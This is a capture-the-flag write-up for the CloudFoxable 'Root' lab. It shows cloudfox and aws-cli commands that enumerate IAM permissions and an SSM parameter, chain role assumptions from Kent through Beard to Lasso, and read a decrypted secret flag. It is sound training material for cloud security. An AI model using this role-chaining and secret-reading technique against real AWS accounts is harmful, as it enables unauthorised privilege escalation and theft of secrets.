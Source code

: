 # CloudFoxable - Root

Challenge link: https://cloudfoxable.bishopfox.com/challenges#Root-18

![](images/root-description.png)

Let's create new profile for **`Kent`**:

```
[profile Kent]
region = us-west-2
role_arn = arn:aws:iam::ACCOUNTID:role/Kent
source_profile = cloudfoxable
```

This challenge is all about assuming role:

- cloudfox

```
cloudfox aws -p cloudfoxable permissions --principal Kent
```

![](images/root-cloudfox-permissions.png)

- aws-cli

```
aws --profile cloudfoxable list-attached-role-policies --role-name Kent
```

![](images/root-aws-cli-list-attached-role-policies.png)

![](images/root-aws-cli-get-policy.png)

![](images/root-aws-cli-get-policy-version.png)


As you can see role **`Kent`** only has **`sts:AssumeRole`** so we will need to find another role that we can assume. As the description describe, we will need to read **`root`** flag in SSM parameter store so let's list all parameters in SSM store first:

- cloudfox

```
cloudfox aws -p cloudfoxable secrets
```

Run that command and you will get the command to read **`root`** flag!

- aws-cli

```
aws --profile cloudfoxable ssm describe-parameters
```

Run that command and search for `root`

All 2 ways will lead us to parameter **`/production/CICD/root`**. Now we don't know what role will interact with this resource so again, let's list all and grep:

- cloudfox

```
cloudfox aws -p cloudfoxable permissions | grep root
```

![](images/root-cloudfox-permissions-grep-root.png)

- aws-cli

We will use the script from [here](https://github.com/nhtri2003gmail/CTFWriteup/tree/master/online/cloudfoxable/backwards#using-aws-cli), let it run and stop at notable thing:

![](images/root-aws-cli-list-all-policies.png)

Ahha! We found a role that interact with the param we want!

So the role we need to focus now is **`Lasso`**. Now we will want if this role assume as another role or not:

- cloudfox

```
cloudfox aws -p cloudfoxable role-trusts
```

![](images/root-cloudfox-role-trusts.png)

- aws-cli

```
aws --profile cloudfoxable iam get-role --role-name Lasso
```

![](images/root-aws-cli-iam-get-role.png)

So if we are role **`Beard`**, we can assume that we are role **`Lasso`**. Currently, we are user **`ctf-starting-user`**, we can assume that we are role **`Kent`**. We have a simple relationship as follow:

```
                   assume
ctf-starting-user --------> Kent
Beard             --------> Lasso
```

But **`Kent`** can assume as enyone else because it has policy **`sts:AssumeRole`**, therefore **`Kent`** can assume that he is role **`Beard`** and we can connect the relationship as below:

```
                   assume         assume          assume
ctf-starting-user --------> Kent --------> Beard --------> Lasso
```

Now we will need to config profile to match that relationship:

```
[profile kent]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Kent
source_profile = cloudfoxable

[profile beard]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Beard
source_profile = kent

[profile lasso]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Lasso
source_profile = beard
```

Note that `role_arn` is the role we set for our profile, only `source_profile` is where we specify it assume as another role. We know the ssm param is **`/production/CICD/root`**, let's try to read that with profile **`lasso`**:

```
aws --profile lasso ssm get-parameter --with-decryption --name /production/CICD/root
```

![](images/root-get-flag.png)

Tadaaa! We got the flag now!